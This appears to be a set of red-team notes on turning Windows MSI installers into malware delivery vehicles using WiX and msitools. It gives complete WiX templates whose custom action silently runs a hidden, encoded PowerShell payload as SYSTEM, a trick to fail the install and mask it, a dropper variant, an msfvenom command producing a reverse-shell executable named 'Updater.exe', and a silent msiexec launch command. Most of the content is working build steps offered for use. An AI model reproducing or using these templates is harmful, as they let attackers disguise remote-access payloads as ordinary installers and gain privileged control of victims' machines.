 # MSI

## 01 - Setup

### 1.1 - `msitools`

Install the packages according to your package manager.

```
$ sudo apt install -y msitools wixl

$ sudo dnf install -y msitools wixl

$ sudo pacman -S --noconfirm msitools
```

### 1.2 - DotNET

Install the package.

```
$ dotnet tool install -g wix
```

Append the `PATH` variable.

```
$ echo "export PATH=\"\$PATH:\$HOME/.dotnet/tools\"" >> ~/.bashrc

$ echo "export PATH=\"\$PATH:\$HOME/.dotnet/tools\"" >> ~/.zshrc
```

Refresh the shell prompt by importing the resource file.

```
$ source ~/.bashrc

$ source ~/.zshrc
```

```
$ wix msi transform

$ wix msi validate
```

## 02 - Compile Payload

### 2.1 - Fileless Payload

TODO: Figure out how to compile it in `dotnet` to resolve the issue.

At minimum, the `Property` line needs to be changed to the command you want to execute. Also needs to be changed in order to build the MSI installer.

```xml
<File Id="ApplicationFile1" Source="Updater.exe"/>
```

The important parts to note of the `CustomAction` tag.

```xml
<Property Id="cmdline">powershell.exe -nop -w hidden -e <base64_payload></Property>
<CustomAction Id="SystemShell" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>
</CustomAction>
```

Finally, we have our `InstallExecuteSequence` tag, which is responsible for executing our custom actions in order. So, when executed our first custom action will be launched, forcing our payload to run as the SYSTEM account. Our second custom action will be launched, causing some invalid VBScript to be executed and stop the install process with an error.

```xml
<InstallExecuteSequence>
 <Custom Action="SystemShell" After="InstallInitialize"></Custom>
 <Custom Action="FailInstall" Before="InstallFiles"></Custom>
</InstallExecuteSequence>
```

Name this file `msigen.wix`.

```xml
<?xml version="1.0"?>
<Wix xmlns="http://wixtoolset.org/schemas/v4/wxs">
 <Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name" Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
  <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
  <Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>

  <Directory Id="TARGETDIR" Name="SourceDir">
   <Directory Id="ProgramFilesFolder">
    <Directory Id="INSTALLLOCATION" Name="Example">
     <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
      <File Id="ApplicationFile1" Source="Updater.exe"/>
     </Component>
    </Directory>
   </Directory>
  </Directory>

  <Feature Id="DefaultFeature" Level="1">
   <ComponentRef Id="ApplicationFiles"/>
  </Feature>

  <Property Id="cmdline">powershell.exe -nop -w hidden -e <base64_payload>
  </Property>

  <CustomAction Id="SystemShell" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>
  </CustomAction>

  <InstallExecuteSequence>
   <Custom Action="SystemShell" After="InstallInitialize"></Custom>
  </InstallExecuteSequence>

 </Product>
</Wix>
```

We have received an error.

```
$ touch Updater.exe

$ wixl -v msigen.wix -o payload.msi
```

Let's convert it and build an MSI installer.

```
$ wix convert msigen.wix

$ wix build msigen.wix -o payload.msi
```

### 2.1 - Dropper Payload

```xml
<?xml version='1.0' encoding='windows-1252'?>
<Wix xmlns='http://wixtoolset.org/schemas/v4/wxs'>
  <Product Name='Foobar 1.0' Id='ABCDDCBA-86C7-4D14-AEC0-86416A69ABDE' UpgradeCode='ABCDDCBA-7349-453F-94F6-BCB5110BA4FD'
    Language='1033' Codepage='1252' Version='1.0.0' Manufacturer='Acme Ltd.'>

    <Package Id='*' Keywords='Installer' Description="Acme's Foobar 1.0 Installer"
      Comments='Foobar is a registered trademark of Acme Ltd.' Manufacturer='Acme Ltd.'
      InstallerVersion='100' Languages='1033' Compressed='yes' SummaryCodepage='1252' />

    <Media Id='1' Cabinet='Sample.cab' EmbedCab='yes' DiskPrompt="CD-ROM #1" />
    <Property Id='DiskPrompt' Value="Acme's Foobar 1.0 Installation [1]" />

    <Directory Id='TARGETDIR' Name='SourceDir'>
      <Directory Id='ProgramFilesFolder' Name='PFiles'>
        <Directory Id='Acme' Name='Acme'>
          <Directory Id='INSTALLDIR' Name='Foobar 1.0'>

            <Component Id='MainExecutable' Guid='ABCDDCBA-83F1-4F22-985B-FDB3C8ABD471'>
              <File Id='FoobarEXE' Name='FoobarAppl10.exe' DiskId='1' Source='Updater.exe' KeyPath='yes'/>
            </Component>

          </Directory>
        </Directory>
      </Directory>
    </Directory>

    <Feature Id='Complete' Level='1'>
      <ComponentRef Id='MainExecutable' />
    </Feature>

  </Product>
</Wix>
```

For fileless malware just make an empty file `touch Updater.exe` unless if it's a dropper then generate with `msfvenom` payload. Then build a MSI installer.

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f exe -o Updater.exe

$ wixl -v msigen.wix -o payload.msi
Loading msigen.wix...
Building payload.msi...
Writing payload.msi...
```

---
## Draft


```xml
<?xml version="1.0"?>
<Wix xmlns="http://wixtoolset.org/schemas/v4/wxs">
 <Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name" Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
  <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
  <Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>

  <Directory Id="TARGETDIR" Name="SourceDir">
   <Directory Id="ProgramFilesFolder">
    <Directory Id="INSTALLLOCATION" Name="Example">
     <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
      <File Id="ApplicationFile1" Source="Updater.exe"/>
     </Component>
    </Directory>
   </Directory>
  </Directory>

  <Feature Id="DefaultFeature" Level="1">
   <ComponentRef Id="ApplicationFiles"/>
  </Feature>

  <Property Id="cmdline">powershell.exe -nop -w hidden -e <base64_payload>
  </Property>

  <CustomAction Id="SystemShell" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>
  <CustomAction Id="FailInstall" Execute="deferred" Script="vbscript" Return="check">
   invalid vbs to fail install
  </CustomAction>

  <InstallExecuteSequence>
   <Custom Action="SystemShell" After="InstallInitialize"></Custom>
   <Custom Action="FailInstall" Before="InstallFiles"></Custom>
  </InstallExecuteSequence>

 </Product>
</Wix>
```

## Command Execution

| Flag     | Description                                            |
| -------- | ------------------------------------------------------ |
| `/quiet` | Suppress any messages to the user during installation. |
| `/qn`    | No GUI                                                 |
| `/i`     | Regular (vs. administrative) installation              |

```
C:\> msiexec /quiet /qn /i payload.msi "C:\path\to\payload.msi"
```

---
## References

### Source Repositories

- [GNOME `msitools`](https://gitlab.gnome.org/GNOME/msitools)

### Firegiant

- [Firegiant Documentation: Using Wix](https://docs.firegiant.com/wix/using-wix/)

### GNOME

- [GNOME: `msitools`](https://wiki.gnome.org/msitools)

### LOLBAS

- [LOLBAS: Msiexec](https://lolbas-project.github.io/lolbas/Binaries/Msiexec/)

### mgeeky

- [mgeeky: MSI Shenanigans. Part 1 - Offensive Capabilities Overview](https://mgeeky.tech/msi-shenanigans-part-1/)